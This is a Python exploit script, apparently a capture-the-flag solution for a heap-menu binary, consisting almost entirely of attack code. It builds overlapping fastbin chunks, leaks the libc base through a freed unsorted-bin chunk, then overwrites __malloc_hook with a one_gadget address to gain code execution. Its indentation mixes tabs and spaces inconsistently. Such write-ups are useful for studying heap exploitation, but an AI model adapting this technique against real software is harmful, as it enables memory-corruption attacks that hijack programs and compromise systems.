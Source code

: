 ```python


def fast():
       
	alloc(0x10) #0
	alloc(0x10) #1
	alloc(0x10) #2
	alloc(0x10) #3
	alloc(0x80) #4
        
	free(1)
	free(2)
	
	pay=0x10*'a'
	pay+=p64(0)+p64(0x21)
	pay+=p64(0x88)+p64(0x88)
        pay+=p64(0)+p64(0x21) 
        pay+=p8(0x80)
	fill('0',pay)
	
	pay='a'*0x10
	pay+=p64(0)+p64(0x21)
	fill('3',pay)

	alloc(0x10) #1
	alloc(0x10) #2
	fill(1,'aaaa')
	fill(2,'bbbb')
	#free(1)
	#free(2)

	#gdb.attach(p)

def leak():
	global base,malloc_hook
	pay=p64(0)*3+p64(0x91)
	fill('3',pay)
	alloc(0x80) #5
	free(4)
	
	addr=u64(dump(2)[:8])
	print(addr)
	base=addr-0x3c4b78
	malloc_hook=base+0x3c4b10
	log.info("libc_base: "+hex(base))
	log.info("malloc_hook:"+hex(malloc_hook))	
 	
def pwn():
	alloc(0x60) #4
	free(4)
	fill('2',p64(malloc_hook-0x30+0xd))
	
	alloc(0x60)#4
	
	alloc(0x60) #fake
	one=base+0x4526a #one_gadget
	fill('6',p8(0)*3+p64(0)*2+p64(one))
	#gdb.attach(p)
	alloc(0x60)

fast()
leak()
pwn()
```